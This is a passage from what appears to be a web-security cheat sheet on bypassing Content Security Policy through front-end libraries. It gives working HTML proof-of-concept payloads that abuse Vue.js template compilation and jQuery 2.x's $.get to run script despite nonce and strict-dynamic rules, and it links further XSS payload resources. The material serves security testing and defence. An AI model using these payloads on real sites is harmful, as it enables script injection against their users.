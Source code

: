 The following article explains the payload with `prototype.js` and shows how to find similar libraries to escape a sandbox:
- [Huli's blog: Who pollutes your prototype? Find the libs on cdnjs in an automated way](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)

## Vue.js

Vie.js can be used to bypass a CSP if `unsafe-eval` is set (that is required for runtime template compilation).

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src https://cdn.jsdelivr.net 'nonce-sometoken' 'unsafe-eval';">
    <script src="https://cdn.jsdelivr.net/npm/vue@2.7.14/dist/vue.js"></script>
</head>
<body>
    <div id="app">
        {{_c.constructor`alert(1)`()}} 
    </div>
    <script nonce="sometoken">
        new Vue({
          el: '#app',
          data: {
            message: 'Hello Vue.js!'
          }
        })
    </script>
</body>
```

More Vue.js payloads can be found at:
- [PortSwigger Cross-site scripting (XSS) cheat sheet: VueJS reflected](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)

## jQuery

jQuery of different versions has vulnerabilities that can be used to bypass a CSP.

### nonce and strict-dynamic bypass via $.get in jQuery 2.x

If there is a way to control an URL in `$.get` or `$.post` it is possible to bypass a CSP that sets `nonce` and `strict-dynamic`.

```html
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-secret' 'strict-dynamic'"> 
  <script nonce='secret' src="https://code.jquery.com/jquery-2.2.4.js" ></script>
</head> 
<body>
    <script nonce=secret> 
        $(function() { 
            $.get('data:text/javascript,"use strict"%0d%0aalert(1)');
        });
    </script>
</body>
```
